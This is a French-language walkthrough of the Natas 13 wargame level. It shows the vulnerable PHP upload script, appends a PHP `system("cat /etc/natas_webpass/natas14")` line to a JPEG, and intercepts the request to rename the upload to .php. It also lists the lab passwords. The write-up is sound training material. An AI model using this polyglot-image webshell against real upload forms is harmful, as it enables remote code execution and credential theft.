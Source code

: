 username : natas13
password : trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC

On est sur un challenge qui ressemble au 12, on sait qu'il va falloir jouer avec du php et du jpeg.

- On a ce code : 
```php 

<?php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";
    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }
    return $string;
}
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
```

- On est obligé d'upload du .jpg On va donc inserer du code php dans un payload.jpg

1) On crée une image jpg : ```convert -size 1x1 xc:white minimal.jpg ```
2) On ajoute le code php a la fin du fichier : ```echo '<?php system("cat /etc/natas_webpass/natas14"); ?>' >> minimal.jpg```
3) On verifie que notre fichier contient bien le code php ```hexdump -C minimal.jpg```
4) On copie notre jpg vers un autre fichier qui sera notre payload : ```cp minimal.jpg payload.jpg```
5) On va sur le site du challenge on upload notre payload et on intercepte la requetes.
6) La requete ressemble a ca : ```
		-----------------------------372261520933639383623932280570
		Content-Disposition: form-data; name="MAX_FILE_SIZE"
		
		1000
		-----------------------------372261520933639383623932280570
		Content-Disposition: form-data; name="filename"
		
		5rh9qcyqgt.jpg <----- ON MODIFIE CETTE LIGNE EN .PHP POUR QUE LE SERVEUR L'EXECUTE
		-----------------------------372261520933639383623932280570
		Content-Disposition: form-data; name="uploadedfile"; filename="payload.jpg"
		Content-Type: image/jpeg
		
		ÿØÿà JFIF        ÿÛ C 	
		
					
		
				
		
		
		ÿÀ    ÿÄ                 	ÿÄ                 ÿÚ   ? TßÿÙ<?php system("cat /etc/natas_webpass/natas14"); ?>
	
	-----------------------------372261520933639383623932280570--
7) On va sur l'url donné en .php
Mot de passe : **z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ**